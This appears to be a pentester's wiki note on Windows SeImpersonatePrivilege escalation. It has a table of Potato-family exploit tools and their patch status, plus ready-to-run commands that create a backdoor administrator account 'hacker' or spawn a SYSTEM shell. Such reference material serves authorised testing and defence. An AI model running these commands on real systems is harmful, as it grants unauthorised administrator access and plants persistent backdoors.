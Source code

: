 ```yaml
---
title: SeImpersonatePrivilege
---
```


This [[notes/windows/privilege]] allows to impersonate any token for which you can get handle and can be leveraged to become to local admin.

# Tools

Name | Release | Compatibility
-----|---------|--------------
[EfsPotato](https://github.com/daem0nc0re/PrivFu/tree/main/ArtsOfGetSystem#efspotato) | 10.23. | Windows 11 22H2 via `\pipe\efsrpc`, unpatched ([source](http://web.archive.org/web/20231010120914/https://blog.hackvens.fr/articles/CoercedPotato.html), [source](https://twitter.com/daem0nc0re/status/1714613181191221743))
[CoercedPotato](https://github.com/hackvens/CoercedPotato) | 10.23. | Windows 10 - 11, Windows Server 2022, unpatched, tests multiple techniques
[GodPotato](https://github.com/BeichenDream/GodPotato) | 04.23. | Windows Server 2012 - 2022, unpatched
[LocalPotato](https://github.com/decoder-it/LocalPotato) | 02.23. | Windows 10 - 11 | patched January 2023, but relay to local WebDAV won't be fixed ([source](https://twitter.com/decoder_it/status/1652309476530085889))
[RasmanPotato](https://github.com/crisprss/RasmanPotato) | 02.23. | Windows 10, Windows Server 2012 - 2019, unpatched
[McpManagementPotato](https://github.com/zcgonvh/DCOMPotato) | 12.22. | Windows 10 21H2 confiremd, unknown ([source](https://twitter.com/secu_x11/status/1675481117384646656))
[PrintNotifyPotato](https://github.com/BeichenDream/PrintNotifyPotato) | 12.22. | Windows 10 - 11, Windows Server 2012 - 2022, unpatched
[JuicyPotatoNG](https://github.com/antoniococo/juicypotatong) | 10.22. | Windows 10 - 11 22H1, up to Windows Server 2022, patched on Windows 11 22H2 ([source](https://github.com/antonioCoco/JuicyPotatoNG/issues/4))
[DiagTrackEoP](https://github.com/wh04m1001/diagtrackeop) | 07.22. | at least Windows Server 2019
[SweetPotato](https://github.com/CCob/SweetPotato) | 05.22. | implements RottenPotato, RogueWinRM, JuciyPotato, PrintSpoofer and EfsPotato, Windows Server 2008 to 2019
[EfsPotato](https://github.com/zcgonvh/EfsPotato) | 11.21. | unknown
[RemotePotato0](https://github.com/antonioCoco/RemotePotato0) | 08.21. | patched since October 2022 ([source](https://twitter.com/splinter_code/status/1583555613950255104))
[Gotato](https://github.com/iammaguire/Gotato) | 07.21. | GenericPotato in Go
[GenericPotato](https://github.com/micahvandeusen/GenericPotato) | 04.21. | creates HTTP or named pipe listener and impersonates users that connect, requires separate trigger
[JuicyPotato](https://github.com/ohpe/juicy-potato) | 03.21. | improved RottenPotatoNG, up to Windows Server 2016, patched since Windows 10 1809 and Windows Server 2019
[RoguePotato](https://github.com/antoniococo/roguepotato) | 05.20. | at least up to Windows Server 2019
[PrintSpoofer.NET](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET) | 03.21. | variant that does not require interactive logon
[PrintSpoofer](https://github.com/itm4n/printspoofer) | 05.20. | at least up to Windows Server 2019, unpatched
[RogueWinRM](https://github.com/antonioCoco/RogueWinRM) | 02.20. | patched on Windows 11 22H2 ([source](https://twitter.com/decoder_it/status/1616515769088737280))
[GhostPotato](https://github.com/Ridter/GhostPotato) | 11.19. | patched since 2019
[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) | 12.17. | improved RottenPotato
[RottenPotato](https://github.com/foxglovesec/RottenPotato) | 12.17. | patched since Windows 10 1809 and Windows Server 2019
[HotPotato](https://github.com/foxglovesec/Potato) | 02.16. | patched since 2016

GodPotato on Windows Server 2019.

~~~ bat
.\GodPotato.exe -cmd "cmd /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

JuicyPotatoNG on Windows Server 2022.
On Windows 11 and Windows Server 2022 use class id `A9819296-E5B3-4E67-8226-5E72CE9E1FB7` ([source](http://web.archive.org/web/20221023144236/https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)).

~~~ bat
.\JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "/c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

PrintSpoofer on Windows Server 2019.

~~~ bat
.\PrintSpoofer.exe -c powershell.exe -i
~~~

JuicyPotato on Windows Server 2016.
Try [different CLSIDs](https://github.com/ohpe/juicy-potato/tree/master/CLSID/).

~~~ bat
.\JuicyPotato.exe -l 6666 -p %TEMP%\shell.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
~~~

References:

- [Exploring Impersonation through the Named Pipe Filesystem Driver](http://web.archive.org/web/20230504073128/https://scribe.rip/@specterops/exploring-impersonation-through-the-named-pipe-filesystem-driver-15f324dfbaf2)
- [In the Potato family, I want them all](http://web.archive.org/web/20230224075943/https://hideandsec.sh/books/windows-sNL/page/in-the-potato-family-i-want-them-all)
- [Giving JuicyPotato a second chance: JuicyPotatoNG](http://web.archive.org/web/20220922132749/https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/)
- [Windows privilege escalation with potatoes](http://web.archive.org/web/20221020142112/https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
